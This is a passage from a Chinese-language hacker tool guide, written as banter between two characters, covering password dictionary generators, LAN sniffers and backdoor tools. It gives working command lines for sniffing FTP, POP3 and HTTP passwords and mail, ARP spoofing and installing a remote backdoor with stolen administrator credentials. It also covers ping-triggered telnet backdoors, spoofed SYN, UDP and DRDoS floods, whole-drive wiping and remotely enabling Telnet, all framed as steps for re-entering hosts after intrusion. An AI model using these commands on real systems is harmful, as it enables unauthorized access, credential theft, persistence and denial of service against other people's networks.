使用方法：首先确定密码段数，比如我们确定为 3，然后，按“刷新”按钮，如图 4-1-10 所示。


4-1-10 确定密码位数

然后选择密码存放位置，如图 4-1-11 所示。


4-1-11 选择密码存放位置

接下来设置每段的密码。

# 第四章 至尊宝典——解密字典的秘密


4-1-12 设置每段的密码内容

如图 4-1-12 所示，每段可以设置的选项有 9 个。我们可以根据需要选择。如果密码是“姓＋分隔符＋数字”的形式，可以如下设置。第一段选择百家姓，第二段选择分隔符，第三段选择数字。


4-1-13 设置结果

如果要添加自定义的符号，可以直接在“添加”下方的文本框中写入，然后再点击“Add”即可。

最后点击“生成（Begin）”按钮，生成密码成功。另外，还可以使用“其他”功能来设置密码，如图 4-1-14 所示。在这里可以加上“关键字”——就是一定包含在密码中的某个字符串。还可以选择添加“前缀”和“后缀”。设置完毕按“观看”可以预览结果，点击“生成”生成密码。

这一款字典工具的设计很有特色，也很有用。


4-1-14 其他功能

### 4.1.3 超级字典生成器

阿瓜：“又是一个超级 XX，有超级扫描，超级炸弹，所以也有超级字典生成器。这些超级武器让我这个超人来用真是再合适不过了，呵呵……”

这个超级字典生成器的超级使用界面如图 4-1-15 所示。


4-1-15 超级字典生成器主界面

字典设置方法：首先设置基本字符的内容，如图 4-1-16 所示。


4-1-16 基本字符设置

“基本字符”是指密码中要包含的基本字符，可以选择数字、字母和其他特殊字符。要选用哪个字符，只要在该字符的前面框中打上对勾即可。选择完毕后，切换到“自定义”选项板，如图 4-1-17 所示。


4-1-17 自定义设置

在这里可以添加自定义字符串，相当于前面说过的“关键字”。另外这里也可以设定“特殊位”，设定“特殊位”后，该位就是固定的字符了。

这里设置完了，就可以切换到“生成字典”选项板进行生成字典的设置了，如图 4-1-18 所示。


在这里首先选择字典的“保存路径”。然后确定“密码位数”，要生成几位的密码就选择几，都选上表示生成所有 1～8 位的密码字典。生成的密码是由基本字符构成的，构成规则受“自定义”设置的限制。选择完毕后，点击“生成字典”就可以生成超级字典了。

按上面的选择生成的结果如图 4-1-19 所示：


下面我们回过头来看使用生日来设置密码字典，如图 4-1-20 所示。比如我们要生成“生日格式”的字典。我们需要如下设置：

首先，填写开始年份月份和结束年份月份，范围尽量精确。然后选择生日模式，如果没把握就全都选上。不过这样的字典比较大。

选择完毕切换到“生成字典”选项板，如图 4-1-21 所示。


设置完后，点击“生成字典”，字典成功生成，如图 4-1-22 所示。


OK，又一个字典工具介绍完了。

## 4.2 特色字典工具

下面介绍几款比较有特色的字典工具。

阿瓜：“有特色的东西一般都是好的，比如特色小吃，特色服装，特色风景，特色技术，特色的人……啊——，嘿嘿，这最后一个不算。”

榕哥：“小小年纪，整天胡思乱想！什么特色，那叫喜欢欣赏美女。你呀，这么大了，还不多学点文化。哪像我，上小学时学习方法就有点特色了。”阿瓜再次晕倒。

### 4.2.1 黑客字典生成器

这个字典生成器的特色就是考虑了破解时的算法，生成密码时采用了一些常用算法。使用界面如图 4-2-1 所示。


4-2-1 黑客字典生成器

我们可以选择大小写字母、数字、特殊字符作为密码的内容，也可以自己添加自定义字符集。使用方法很简单，特色就是可以选择不同的算法：深度算法、多线程算法、广度算法、多线程广度算法。

现在比较一下这几种算法的区别。例如，我们选择数字、五位密码，默认的 5 个线程，其他不选。设置方法如图 4-2-2 所示：


4-2-2 例子

我们看看以下各图中的几种算法生成的密码各有什么区别。


4-2-3 深度算法结果


4-2-4 广度算法结果


4-2-5 多线程深度算法


4-2-6 多线程广度算法

四种算法在探测同一密码时的速度是不一样的，可以根据需要选择不同算法。

### 4.2.2 生日密码生成器

这是一个专门用生日做的密码工具，也很有特色。使用界面如图 4-2-7 所示：


4-2-7 生日密码生成器

这个软件最大的特点就是支持了几乎所有的生日格式。我们可以看看它支持的格式都有哪些（不完全举例）。


4-2-8 生日格式之一


4-2-9 生日格式之二


4-2-10 生日格式之三

总共加在一起大约有六十多种生日格式。

> 阿瓜：“真全啊！不过估计我一辈子也不会把这些格式全用上的。”

> 榕哥：“你还别嫌多，还不打折，另外还有双写的功能呢！”


4-2-11 双写功能

呵呵，好家伙，只要是你用生日做密码，你再怎么变化，也逃不出如来佛祖的掌心啦！

### 4.2.3 Txt2Dic

这个工具更好玩了，它可以把文本文件中的单词抽出来做成字典。使用界面如图 4-2-12 所示：


例如，我们有一篇英文文章存放在“D:\TEXT.TXT”文件中，我们想把这篇文章中的单词抽出来做字典，我们只需做如图 4-2-13 一样设置即可。


其中，“过滤字串”是指要从文章中去掉的字符；“单词最小长度”选大一点，可以去掉一些简单的单词。设置完毕后，点击“开始”就可以生成密码了。

> 榕哥：“各门各派的武功宝典基本上就这几种。如果你觉得不过瘾，那你就只好自创一套武功，自己写秘籍了。”

> 阿瓜沉思：“嗯……第一招不如叫神龙摆尾……”

榕哥已经飘然而去。

> 阿瓜悟道：宝典虽博大精深、妙用无穷，但是没有深厚的内功基础也不易修炼。所以要想使用好黑客字典，首先要加强黑客基本功的练习。

# 第五章 过眼云烟——嗅探监听工具的浪漫

——嗅探监听工具的浪漫


> “曾经沧海难为水，除却巫山不是云。”

“往事不堪回首，月明中……”

“世事如云，浮尘往事皆烦恼，何苦相思泪，……”

清晨起来，阿瓜诗性大发，乱七八糟一阵乱吟。榕哥恰好出去买早点，见小湖亭边站立的人像是阿瓜，走近前，忽闻阿瓜自言自语，不由大惊，急忙跃上前去，一把抱住阿瓜道：“阿瓜，千万不要啊！失恋 100 次也不至于轻生啊！”

阿瓜大喊：“放开，谁说我想死啊！我是在抒发感情。放开！”榕哥依言放手，阿瓜正在用力挣脱，一下没站稳，落入湖中，露出头来又喊：“我不想死——”

……

上午，阿瓜吃过早饭又来和榕哥谈论黑客兵器谱。

榕哥：“怎么样，早晨洗个澡很爽吧？”

阿瓜：“还不错，就是水脏了点——你可别再推我下水了！！！好啦，我们接着讨论。”

榕哥：“好啦，我们看今天的主题——嗅探监听工具。嗅探监听工具是一类可以监听网络上传输信息的工具，它可以监测网络上传输的各类信息，并对其进行分析。没有任何通过网络的信息能从你的眼皮底下溜走，就像天空有鸟儿飞过，也会在你眼中留下痕迹；就像一片云飘过，也会在你心中印下她的倩影。”

阿瓜：“就像云烟过眼，但我心如止水。”

榕哥：“哇，你小子快得道了！厉害，厉害！”

## 5.1 敏感信息获取型

这种类型是嗅探监听类工具的主流。这类软件之中的精品工具很复杂，功能非常强，可以对数据包结构进行分析，但是需要足够的网络底层知识，不适合初学者使用。本章只选择简单易用的工具进行介绍。

### 5.1.1 NETSPY

本软件适用于企业、学校、网络培训班、网吧，用于规范局域网用户的网络行为，可有效防止利用网络进行窃取或者泄露重要资料的地下活动。只要是在局域网就可以使用该软件。

本软件安装包解压后出现两个基本安装程序，如图 5-1-1 所示。


其中，主程序 NetSpy.exe 无需安装可直接运行，或在桌面建立其快捷方式以方便运行。WinPcap.exe 是以太网包侦听驱动程序安装程序。

安装 WinPcap 后，启动 NetSpy 主程序即可使用（注意，未注册版本有使用时间限制）。

主程序使用界面如图 5-1-2 所示。


5-1-2 NetSpy 主程序界面

软件功能主要是监视并记录员工常用的网络活动，内容包括：访问网站、收发邮件、FTP 上传命令、网上聊天（指腾讯 QQ 和 ICQ）、TELNET 远程登录命令、内部共享文件访问等。

呵呵，好东西啊！

另外，这个软件只需要安装在一台计算机上，无需在员工计算机上安装任何客户端软件就可实现对局域网所有计算机的监视。

> 阿瓜：“呵呵，比木马好用多了。”

> 榕哥插嘴：“不过这个东西只能在局域网使用，使用范围没有木马广。”

这个软件的使用很简单。首先点击“文件”菜单，在下拉菜单中选择“添加部门”，如图 5-1-3 所示。

在弹出对话框中的“部门名称”输入框中填写部门名称，当然这里只是一个分类的作用，不一定必须写部门名称，名字可以随便起。填好后，按“添加”→“保存”→“退出”，如图 5-1-4 所示。


5-1-3 添加部门

5-1-4 添加并保存

OK，下面添加员工，就是进一步分类。在图 5-1-3 所示菜单中选择“添加员工”，出现如图 5-1-5 对话框。


5-1-5 添加员工

选择好你要监视的部门，填写“员工姓名”和“IP 地址”，按“添加”→“保存”→“退出”。设置完毕后，就可以开始监视了。


5-1-6 开始监视

如图 5-1-6 所示，在“操作”的下拉菜单中选择“开始监视”，弹出“监视设置”对话框，如图 5-1-7 所示。


5-1-7 监视设置

在上面的对话框中设置要“监视的事件”和“日志保存间隔”。

> 榕哥闲言：出于道德上的考虑，软件作者将一些涉及隐私的内容，比如：帐号、密码、邮件内容等都进行了相关的处理。其实只要将源码稍做修改，就可以很容易地监视到局域网中的所有明文密码。

设置完毕，点击“开始监视”就可以进行监视了。


在图 5-1-8 中选择箭头所指图标，可以查看“监视记录”，如图 5-1-9 所示。


阿瓜：“这个软件的使用虽然简单，但是功能绝对不弱。当然，不能直接查看密码还是有点遗憾。”

榕哥：“想直接查看密码，好，下面我们就看一个能直接看密码的东西。”

### 5.1.2 X-SNIFF

这是一个简易的命令行方式的嗅探器，可捕获局域网内 FTP、SMTP、POP3、HTTP 协议密码，如图 5-1-10 所示。


＜选项＞含义如下：

- `-tcp`：输出 TCP 数据报
- `-udp`：输出 UDP 数据报
- `-icmp`：输出 ICMP 数据报
- `-pass`：过滤密码信息
- `-hide`：后台运行
- `-host`：解析主机名
- `-addr <IP 地址>`：过滤 IP 地址
- `-port <端口>`：过滤端口
- `-log <文件名>`：将输出保存到文件
- `-asc`：以 ASCII 形式输出
- `-hex`：以 16 进制形式输出

用法示例如下：

```text
xsniff.exe -pass -hide -log pass.log
xsniff.exe -tcp -udp -asc -addr 192.168.1.1
```

这样就可以监视地址为 192.168.1.1 的电脑的信息了，密码信息将被存放到 pass.log 文件中。

它的使用真的很简单，下面看另外一个。

### 5.1.3 WINSNIFF

这也是一个命令行工具。该软件是支持 MS Windows 95/NT/2000 的第一个控制台嗅探器，拥有大量的功能。它能重新找回 POP3、TELNET、HTTP、FTP、IMAP、NNTP 密码，并以 UNIX 信箱格式保存所有邮件信息。

在这个程序中有一个创新：能个别分析每个协议（只提取登录名和密码），并把新情况保存下来。

使用前先在命令提示符下切换到 WINSNIFF 所在的文件夹，如图 5-1-11 所示。


使用的命令格式如下：

```text
winsniff /a AdapterNumber [/s passwordfile] [/m mailfile]
```

其中，AdapterNumber 是指网络适配器号，passwordfile 是指存放密码的文件，mailfile 是指存放邮件的文件。

首先，要用“winsniff /l”命令来查看自己的电脑上可用的网络适配器号。如图 5-1-12 所示：


5-1-12 查看适配器号

这个软件只适用于以太网（Ethernet），[6] 号是以太网，所以选择 [6] 号来使用。输入：

```text
winsniff.exe /a 6 /s pass /m mail
```

结果如图 5-1-13 所示。


5-1-13 开始运行

这样，邮件（Mail）存放在了“mail”文件中，密码（PASS）存放在了“pass”文件中。“pass”文件的示例如图 5-1-14 所示。


5-1-14 pass 文件内容

“mail”文件的示例如图 5-1-15 所示。


5-1-15 mail 文件内容示例

> 阿瓜：“这些都是英文，为什么没有中文啊？”

榕哥：“因为这个软件是外国人做的，只能把报文中的信息解读成 ASCII 码的形式，不支持汉字内码的转换。”

## 5.2 综合嗅探型

这种型号的嗅探器可以获得原始数据包，有的也可以伪造数据包，进行 IP 欺骗。

### 5.2.1 ARP-Killer

这是一个利用 ARP 协议进行信息截取、伪造和地址欺骗的工具。软件的使用界面如图 5-2-1 所示。


5-2-1 ARP Killer

该工具有两个模块，一个是 Sniffer 检测工具，另一个是 ARP 欺骗工具，还可以由你自行扩展。

首先看 Sniffer 检测：输入检测的起始和终止 IP，单击“开始检测”就可以了，如图 5-2-2 所示。

# 第五章 过眼云烟——嗅探监听工具的浪漫


### 5-2-2 SNIFFER 检测

检测完成后，如果相应的 IP 是绿帽子图标，说明这个 IP 处于正常模式；如果是红帽子则说明这个网卡处于混杂模式。

再看 ARP 欺骗（冒充 IP）：选择发送请求包，输入目的起始和终止地址，再输入要冒充的 IP，再填上一个假的 MAC，就可以发送了，当然这个过程中可以设为循环，如图 5-2-3 所示。


5-2-3 ARP 欺骗（冒充 IP）

ARP 欺骗（欺骗 IP）：选择发送回应包，输入被欺骗主机的 IP 和它的 MAC 地址，再输入原主机的 IP，目的地址随便啦，不存在就行（也可以指向你的 IP）。好了，单击“发送”就行了。

这个软件的基本功能介绍完了，看下一个。

## 5.2.2 ARPSNIFFER

这是基于交换环境的 Sniffer 工具。这个软件的运行需要安装 WinPcap 2.1 驱动。进入软件所在的目录后，输入命令“arpsniffer”，出现命令的详细用法说明，如图 5-2-4 所示。

使用举例如下：

- 例如 FE575C-3COM 10/100 LAN CardBus-Fast Ethernet 网卡网络设置如下：
  - IP：192.168.0.29
  - Gateway：192.168.0.1
  - 掩码：255.255.255.0

如果需要嗅探 192.168.0.16 的 POP3 邮件，则在命令提示符下输入如下命令：

```text
ARPSniffer 192.168.0.1 192.168.0.16 110 log.txt 0
```

其中 110 为 POP3 的端口，如果端口指定为 *，则说明捕获所有的 TCP 报文；

log.txt：将捕获到的数据记录到文件 log.txt；

0：指定捕获的网卡，本例中为 FE575C-3COM 10/100 LAN CardBus-Fast Ethernet。

当捕获结束后，192.168.0.16 会在一段时间内无法上网（因为它的 ARP 表还没有改过来），这个时候可以发一个 /RESET 来恢复，这样 192.168.0.16 就可以正常上网了。如：

```text
ARPSniffer 192.168.0.1 192.168.0.16 110 log.txt 0 /RESET
```


5-2-4 ARPSNIFFER

> 阿瓜：“这个软件感觉很亲切啊！好像我们在以前认识一样。”

榕哥：“是啊，这个软件的作者你很熟的，就是流光和奶雪的作者。”

阿瓜：“我说呢。原来如此。”

榕哥：“现在嗅探监听类的工具并不多，精品更少。我们这里只好弄些大家喜闻乐见的软件来讨论了。”

## 5.2.3 MYNETMON

这是一款运行在 Windows 平台上的网络监测和包分析工具，它使用 WinPcap 作为捕获数据包的链接库，该版本有部分功能限制。软件使用界面如图 5-2-5 所示。


5-2-5 MYNETMON

这是一个真正意义上的嗅探分析软件，它可以捕获数据包并对其进行分析。进行捕获信息前首先进行设置。


5-2-6 选择网络适配器

从图 5-2-6 中选择“Adapter Selection”选项，出现如图 5-2-7 所示对话框。


5-2-7 设置目标

然后进行捕捉选项设置，如图 5-2-8 所示。


5-2-8 捕捉选项设置

从图 5-2-9 中选择“Filtering Options”→“Filtering”选项进行过滤器设置。


5-2-9 启动过滤器设置

在如图 5-2-10 设置对话框中，可以选择要捕获的信息选项。要选择某个选项，只要在“Include”单选框被选中的情况下，在该项前打上对勾就行了。


5-2-10 过滤器设置

另外，可以在“IP Address”对话框中设定要捕获信息的“目标地址”和“源地址”，如图 5-2-11 所示。


5-2-11 IP 设置

选择“Ports”，在弹出的对话框中选择要监听的端口号，添加后，应用即可，如图 5-2-12 所示。


5-2-12 监听端口设置

当然，要进行精确设置可以在“Special/Manual”对话框中进行设置。在这里可以设置要捕获包的大小、上下限，如图 5-2-13 所示。


5-2-13 精确设置

在主界面中选择“Packet Decoding”→“Decoding Options”，开启信息解码设置对话框，如图 5-2-14 所示。在这里可以选择要解码的内容，可以保存 HTTP 文件、文本文档、图像文件等。你可以根据需要设置这些选项。


5-2-14 解码设置

点击图 5-2-15 中的箭头图标，开始捕捉。捕捉到信息后可以进行数据包修改、转发等操作，这里不再详述。


5-2-15 开始捕捉

> 阿瓜悟道：鸟儿从天空飞过，天空已留下它的痕迹；数据从网上传过，我的电脑上已留下它的秘密！


# 第六章 别有洞天——后门工具的秘密

所谓后门，就是当入侵主机成功后，想办法为再次入侵留下一条隐藏的通道，这个通道就是黑客们所说的后门。一般的后门程序都是打开一个特殊的端口来监听，比如 NC、NTLM、RNC 等等，都是以一种类 TELNET 的方式在服务器端监听远程的连接控制。不过一个比较防范严密的 WWW 站点（它们的管理员吃了苦头后）一般通过防火墙对端口进行限制，这样除了管理员开的端口外，其他端口就不能连接了。但是 80 端口是不可能关闭的（如果管理员没有吃错药）。这时也可以通过 80 端口留后门。

阿瓜也入侵过不少主机，但是总感觉后门技术博大精深，非一日之功可以练成的，于是就干脆作了长远打算，计划用 10 年、8 年的时间慢慢学习。

榕哥看在眼里，心里叹气：“唉，没办法，谁让咱阿瓜笨啊！不过阿瓜虽然笨点，可是很勤奋啊！没准能够像郭靖大侠一样，傻小子有福气有朝一日也能武功大成呢！”

阿瓜：“呵呵，这一部分的软件都这么小，真好玩。”

榕哥一听阿瓜傻笑，不由怒从心头起，大喊：“废话，后门工具是给人看的吗？弄那么大不被人发现才怪，你、你气死我了，快去，给我买瓶冰可乐，给我降降温。”

## 6.1 常规后门工具

后门这一概念最早是在 UNIX 时代产生的，这里我们只看现在 Windows 系统中常用的后门工具。

> 阿瓜小注：这些工具几乎都是命令行工具，用起来不太习惯。不过作为一名成功的黑客，这点困难当然是可以克服的了，呵呵，大不了克服的时间长点。


### 6.1.1 HALL

这个软件是中国红客联盟 CEO 的作品，功能很多。我们看一下使用方法：首先进入程序所在的目录，如图 6-1-1 所示。


其中 HALL.EXE 就是主程序。输入“HALL -h”命令可以查看命令参数，如图 6-1-2 所示。


6-1-2 涉及到的命令参数

这个工具共有八大功能，我们分别给大家介绍。

#### 1. Ping Backdoor（后门）

- 1.1 本机默认安装一个 ping backdoor。
  - start
  - 默认数据为：
    - 密码：kissme
    - 监听包大小：101
    - 后门端口为：138

- 1.2 本机开一个绑定了 cmd shell 的端口。这样就可以通过这个端口来远程执行命令。
  - bind `<Password>` `<ListenPort>`
    - `<Password>` 为验证密码。
    - `<ListenPort>` 为监听端口。

- 1.3 指定后门参数安装后门。
  - setup `[<TargetIP> <User> <Pass>] <ServiceName> <DisplayName> <Description> <Password> <ListenPort> <PackSize>`
    - `<ServerName>` 为后门的服务名。
    - `<DisplayName>` 为服务显示的名称。
    - `<Description>` 为服务的描述。
    - `<Password>` 为控制密码。
    - `<ListenPort>` 为监听端口，为（1—65535）。
    - `<PackSize>` 为监听包的大小，为（1—65000）。
    - `[<TargetIP> <User> <Pass>]` 为远程安装选项，分别指定远程 IP、用户名和密码（必须是系统管理员的）。

这个功能是实现后门功能的主要部分。例如，我们成功入侵了一台主机，地址为 192.168.0.1，并得到该机的系统管理员名为“Administrator”，密码为“123321”，现在我们要留下后门，方便下次入侵，我们可以在命令提示符下输入如下命令：

```text
HALL -setup 192.168.0.1 Administrator 123321 SRV WSRV SERVICES yellow 1212 1000
```

其中，“SRV”为后门的服务名；“WSRV”为服务显示的名称；“SERVICES”为服务的描述；“yellow”为控制密码；“1212”为监听端口，以后使用这个后门就是通过连接此端口来实现；“1000”是数据包的大小。

图 1.4 ping 后门的使用方法为：

```text
ping TargetIP -l 101 -n 1

telnet TargetIP 138
```

其中的 101、138 分别改成你设定的参数。例如，我们在 192.168.0.1 的主机上按 1.1 所示安装了 ping 后门，则操作为：

```text
ping 192.168.0.1 -l 101 -n 1

telnet 192.168.0.1 138
```

这样我们就成功利用 ping 后门再次进入主机了。

#### 2. 文件操作

使用参数为：`-<fget|safedel> <option>`

图 2.1 下载 HTTP 或 FTP 文件功能。

`-fget <URLFile|FTPFile> <LocalFile>`

`<URLFile>` 为文件的 HTTP 地址。

`<FTPFile>` 为文件的 FTP 地址。

`<LocalFile>` 为下载文件要保存的路径和文件名。

例如，要下载“http://www.target.com\fpdb\login.mdb”文件，只要如下操作即可：

```text
HALL -fget http://www.target.com\fpdb\login.mdb c:\myfile.mdb
```

则该文件内容被保存到 C:\myfile.mdb 文件中。

```text
-safedel [-p passes] [-s] <File or Directory>
-safedel [-p passes] -z [Drive Letter]
[Option:]
  -p passes  重写的次数，默认为：3
  -s         擦掉所有子目录
  -z         清除
```

例如，要擦除 D 盘所有内容可以如下操作：

```text
HALL -safedel -p -z D
```

#### 3. DoS & Flood 功能

使用参数为：`-<ping|udp|syn|drdos> <option>`

图 3.1 Ping Flood（为伪造源 IP 进行 ICMP Ping 洪水攻击。）

```text
-ping <SourceIP> <TargetIP> <PackSize> <Delay>
```

- `<SourceIP>` 为要伪造的源 IP，也就是将要攻击的 IP。
- `<TargetIP>` 为将要利用的主机 IP，最好为一个广播地址，如 192.168.0.255。
- `<PackSize>` 为发送的 ICMP 包的大小，为（1—65000）。
- `<Delay>` 为发送数据包之间的延时，为（0—1000），选 0 为无延时，推荐为 1。

因为收到一个 ICMP 请求，一般的主机都会返回一个响应。如果一个广播地址 192.168.0.255 上有 50 台主机有 ICMP 回应，`-ping 192.168.1.1 192.168.0.255 60000 1` 将使 192.168.1.1 主机收到 60000×50 倍的数据包。

图 3.2 UDP Flood（为伪造源 IP 和源端口，对目标进行 UDP 洪水攻击。）

```text
-udp <SourceIP> <SourcePort> <TargetIP> <TargetPort> <PackSize> <Delay>
```

- `<SourceIP>` 为要伪造的源 IP。
- `<SourcePort>` 为要伪造的源端口，为（0—65535），选 0 表示为每次攻击时变化源端口。
- `<TargetIP>` 为将要攻击的主机 IP。
- `<TargetPort>` 为将要攻击的主机的端口，为（0—65535），选 0 表示为每次攻击时变化目标端口。
- `<PackSize>` 为发送的 UDP 包的大小，为（1—65400）。
- `<Delay>` 为发送数据包之间的延时，为（0—1000），选 0 为无延时，推荐为 1。

图 3.3 SYN Flood（为伪造源 IP 和端口，对目标进行 SYN 连接请求攻击。）

```text
-syn <SourceIP> <SourcePort> <TargetIP> <TargetPort>
```

- `<SourceIP>` 为要伪造的源 IP。（可找任意互联网 IP，攻击中会在一个 B 段内变化。）
- `<SourcePort>` 为要伪造的源端口，为（0—65535）。（可随便输入，攻击中会自动变化。）
- `<TargetIP>` 为将要攻击的主机的 IP。
- `<TargetPort>` 为将要攻击的主机的端口，比如 80、21 等。

原理为改变源地址和源端口，发送大量的 SYN 连接请求到目标 IP，产生拒绝服务现象。攻击能力大约为 1.5W 次连接请求/s（未优化版）。

图 3.4 DRDoS Flood（为分布式反射拒绝服务攻击。）

```text
-drdos <TargetIP> <TargetPort> <UsingIP> <UsingPort>
```

`<TargetIP>` 为将要攻击的主机的 IP。  
`<SourcePort>` 为将要攻击的主机的端口。  
`<UsingIP>` 为将要利用的主机段。（找一个 C 段内主机存活并开放特定端口多网段的，攻击时，这个 IP 将自动在 2 个 C 内变化。）  
`<UsingPort>` 为将要利用的端口，如 21、80、179 等等。

DRDoS 为利用发出的 SYN 连接请求到一批活动的主机的开放端口，也就是源地址是不变的，利用活动主机返回的信息来淹没源地址 IP，产生 Flood 效果。

图 3.5 ICMP 和 UDP 实际上是个比带宽的攻击方式。

参与攻击的机器少的情况下，-syn 更容易让目标瘫痪。  
参与攻击的机器多的情况下，-drdos 让目标更难防御 Flood 攻击。

#### 4. 进程功能

[Process:]  
使用参数为：`-<fport|pslist|pskill <Pid>>`

- 图 4.1 查看端口跟进程的对应关系，并找出进程文件的具体位置（fport）。
  - `-fport`
- 图 4.2 查看当前进程列表。
  - `-pslist`
- 图 4.3 杀掉指定进程号的进程。
  - `-pskill <Pid>`
  - `<Pid>` 为要杀掉的进程号，可以用 pslist 功能来查看具体的 pid。

#### 5. 系统功能

[System:]  
使用参数为：`-<reboot|shutdown|power>`

- `-reboot` 为立刻重启动机器。
- `-shutdown` 为立刻关机。
- `-power` 为立刻关机，并关电源。

#### 6. 扫描器功能

[Scanner:]  
使用参数为：`-<xport|xcgi> [option]`

- 图 6.1 端口扫描（扫描目标机器开放的端口。）


# 第六章 别有洞天——后门工具的秘密

```text
-xport <HostName|StartIP[-EndIP]> [Port1-Port2|Port1,Port2…] [Option]
[Option:]
-b 获取服务器返回信息。
-d: delay 扫描延时为(1-30)，默认为2s，最大为60s。
-t: thread 扫描的线程为(1-1000)，默认为200，最大为1000。
<HostName> 为要扫描的主机名。
<StartIP[-EndIP]> 为要扫描的主机 IP 或 IP 段。
[Port1-Port2] 为要扫描的端口范围。
[Port1,Port2…] 为要扫描的端口列表。
如果没有端口信息，将默认扫描内置的32个端口，分别为：
21、22、23、25、53、79、80、110、111、113、123、135、139、143、443、445、512、513、514、515、540、1080、1433、1521、1524、3306、3389、5631、6000、8000、8080、12345。
```

图 6.2 CGI 漏洞扫描。

```text
-xcgi <HostName|StartIP[-EndIP]> [option]
[Options:]
-d: delay 扫描延时，默认为4秒，最大为60秒。依网速而定。
-f: file CGI 漏洞列表文件，如果文件不存在或者未指定，将扫描内置的1319个 CGI 漏洞列表。
-p: port 要扫描的 WEB 端口。
-g: post 用 POST 模式代替 GET。
-t: thread 扫描进程，默认为100，最大为500。
-u: url 扫描单个 URL。
```

#### 7. 服务操作

```text
[Services:]
使用参数为：-<slist|sdel|sstart|sstop|spause|sview|install> <option>
图 7.1 为列出本机或远程主机的服务。
-slist [<TargetIP> <User> <Pass>] <all|running|win32|driver>
<all> 为列出所有服务。
<running> 为列出所有运行中的服务。
<win32> 和 <driver> 分别为要列出的服务的类型。
[<TargetIP> <User> <Pass>] 为远程查看服务选项，分别指定远程 IP、用户名和密码。(必须为 administrator)。
图 7.2 删除一个本机或远程主机的服务。
-sdel [<TargetIP> <User> <Pass>] <ServiceName>
<ServiceName> 为将要删除的服务名。
[<TargetIP> <User> <Pass>] 同上。
```

- 7.3 启动一个本机或远程主机的服务。

```text
-sstart [<TargetIP> <User> <Pass>] <ServiceName>
<ServiceName> 为将要启动的服务名。
[<TargetIP> <User> <Pass>] 同上。
```

- 7.4 停止一个本机或者远程主机的服务。

```text
-sstop [<TargetIP> <User> <Pass>] <ServiceName>
<ServiceName> 为将要停止的服务名。
[<TargetIP> <User> <Pass>] 同上。
```

- 7.5 暂停一个本机或者远程主机的服务。

```text
-spause [<TargetIP> <User> <Pass>] <ServiceName>
<ServiceName> 为将要暂停的服务名。
[<TargetIP> <User> <Pass>] 同上。
```

- 7.6 查看一个本机或远程主机的服务的详细信息。

```text
-sview [<TargetIP> <User> <Pass>] <ServiceName>
<ServiceName> 为将要查看的服务名。
[<TargetIP> <User> <Pass>] 同上。
```

- 7.7 为本机或者远程主机安装一个服务。

```text
-install [<TargetIP> <User> <Pass>] <ServiceName> <DisplayName>
<FilePath>

<ServiceName> 为将要安装的服务名称。
<DisplayName> 为将要安装的服务的显示名称。
<FilePath> 为作为服务运行的程序(必须是服务程序。)
```

#### 8. TCP 包转发功能

```text
[Transmit:]
```

- 8.1 为监听两个端口，把两个端口上接收到的数据做一个交换。

```text
-listen <ListenPort> <AttackerPort>
```

一个端口等待 slave 来连接，一个等待攻击者来连接。如果两边都有连接进来，把两边的数据做一个交换。

即：ListenPort <--> AttackerPort

- 8.2 为普通包转发功能，把本机的某个端口上接收到的数据转发到指定 IP 的端口上。

```text
-tran <ListenPort> <DestIP> <DestPort>
```

即：ListenPort <--> DestIP->DestPort

<ListenPort> 为监听的端口。

<DestIP> 为你实际要连接的目标的 IP。

<DestPort> 为你实际要连接的目标的端口。

如：-tran 23 192.168.0.4 23

把本机的 23 端口上接收到的数据转发到 192.168.0.1 的 23 端口，并把 192.168.0.1 的 23 端口的返回信息转回到连接本机 23 端口的 IP。

telnet localhost 23 实际上连接的是 192.168.0.1 的 23 端口。

**图 8.3 为连接目标 IP(TargetIP) 的端口(TargetPort)，并连接另一个主机的监听端口。**

```text
-slave <TargetIP> <TargetPort> <ListenIP> <ListenPort>
```

为连接目标 IP(TargetIP) 的端口(TargetPort)，并连接另一个主机的监听端口，并把两边的数据作一个交换。

阿瓜：“榕哥，这个软件有这么多功能，可是我看其中有些功能根本不属于后门工具的功能啊？”

榕哥摇摇头，说：“是啊！后门功能只是这个程序的一部分。不过这个软件的功能实在全，所以忍不住都介绍了出来。嘿嘿，艺多不压身嘛！是吧，阿瓜？”

阿瓜：“是吧……不过，这么多命令要记住还真不容易呀！——对了，榕哥，这个后门和木马有什么区别啊？”

> 榕哥：“区别啊！最明显的区别就是木马使用简单，后门使用麻烦。另外，后门多是利用系统自身的功能来实现对系统的功能，而木马却有自己的功能代码，再有就是木马很容易被杀毒软件查杀，而后门程序却不容易被查出来。其实有的后门和木马很像，我们稍后就会介绍。”

## 6.1.2 TELNET

很多人在问怎么远程启动 TELNET。同时，很多人使用小榕的流光工具，需要上传 NTLM.exe，启动 NTLM.exe 来修改微软 TELNET 的 NTLM 认证方式，或者上传一个 NCX，开 99 端口。这些程序的启动还需要使用 AT 命令去查询对方服务器的时间，然后启动计划任务来执行程序，比较麻烦。还有就是 NCX 使用起来不舒服，命令不好显示。既然微软自己有 TELNET，我们为何不直接利用它呢！


### 6-1-3 TELNET 工具

如图 6-1-3 所示，这两个工具中，OpenTelnet.exe 是用来启动远程服务器的 TELNET 的，ResumeTelnet.exe 是用来把修改了的配置都返回到默认配置中去，关闭 TELNET 服务等。

使用这两个程序，你必须先获得管理员密码和帐号，同时服务器开放 IPC$ 共享。而且只能对 WIN2K（XP）使用，NT 未经测试过。


> 提示：解释一下 NTLM 认证方式：
>
> 0. 不使用 NTLM 身份验证
> 1. 先尝试 NTLM 身份验证。如果失败，再使用用户名和密码。
> 2. 只使用 NTLM 身份验证

先看 OpenTelnet.exe 的用法：

命令格式为：

```text
OpenTelnet.exe \\server <帐号> <密码> <NTLM认证方式> <Telnet端口>
```

比如下面的：

```text
C:\>OpenTelnet.exe \\192.168.1.2 administrator 123456 1 90
************************************************
Remote Telnet Configure. by refdom
Email: refdom@263.net
M:\TestProjects\OpenTelnet\Release\OpenTelnet.exe

Usage: OpenTelnet.exe \\server username password NTLMAuthor telnetport
************************************************
Connecting \\192.168.21.131 ... Successfully!

The Telnet Service default setting: NTLMAuthor=2  telnetPort=23

Starting telnet service...
telnet service is started successfully! telnet service is running!

Telnet Port is 90. You can try "Telnet ip 90" to connect the server!
Disconnecting server... Successfully!
```

这样，我们就能够得到一个开 90 端口的 Telnet 服务器了。再输入如下命令：

```text
Telnet 192.168.1.2 90
```

这样就可以登录上去了。

再看 ResumeTelnet.exe，它是用来恢复 TELNET 配置的，并关闭 TELNET 服务器，它的用法：

```text
ResumeTelnet.exe \\ip <帐号> <密码>

例如：C:\>ResumeTelnet.exe \\192.168.21.2 administrator 123456

*******************************************************
Resume Remote Telnet Config, by refdom
